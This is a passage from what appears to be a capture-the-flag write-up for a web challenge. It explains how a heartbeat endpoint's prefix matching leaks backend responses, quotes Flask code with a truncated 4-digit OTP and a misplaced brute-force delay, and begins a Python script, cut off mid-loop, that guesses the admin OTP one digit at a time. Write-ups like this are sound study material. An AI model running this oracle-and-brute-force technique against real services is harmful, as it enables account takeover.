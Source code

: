 # Leaking data back
It's worth noting the `&response=po`, this tells the frontend what the returned status should be. Because the backend returns the plaintext `pong` we can see by experimenting that it does a prefix match. So if we send some request with `&response=abc` we know that if we get `{"status": true}` that `abc` is a prefix of the response.

I also verified this by pointing it to a webpage in the frontend and doing `&response=<!doctype html>` (but url encoded).

# Cracking the OTP
The interesting parts of the code is the following:

```py
def verify_otp(username, provided_otp):
    secret = get_secret(username)
    if secret:
        return provided_otp == TOTP(secret).now()[:4]
    return False

@app.route("/otp/<username>")
def otp(username):
    totp_secret = get_secret(username)
    if not totp_secret:
        return abort(400)
    return TOTP(totp_secret).now()[:4]

@app.route("/flag/<otp>")
@auth.login_required
def get_flag(otp):
    if not otp:
        return {"error": "OTP not provided"}
    if not verify_otp("admin", otp):
        return {"error": "OTP invalid"}
    sleep(0.5) # prevent brute force attacks
    return flag
```

Again we notice a slicing operation happening. OTP codes are `[0-9]` (think about using 2FA yourself) and since there are only 4 digits this means there are only `10^4 = 10000` possibillities. But because we check prefixes we can do each digit at a time, which means there are `40` combinations and we on average will use `20` tries.

We can also see that the brute force protection happens only in the branch where the flag *is* returned, so it's completely useless. Not to mention that the protection is for only one of the endpoints.

We end up with something like
```py
from requests import session
import string

BASE = "http://webapp.pwn.toys"
s = session()

def get_otp():
    def url(response):
        return f"{BASE}/heartbeat?endpoint=174380461/otp/admin&response={response}"
    
    answer = ""
    for _ in range(4):
        for v in range(10):
            u = url(answer + str(v))
            r = s.post(u).json()
            if r["status"]:
```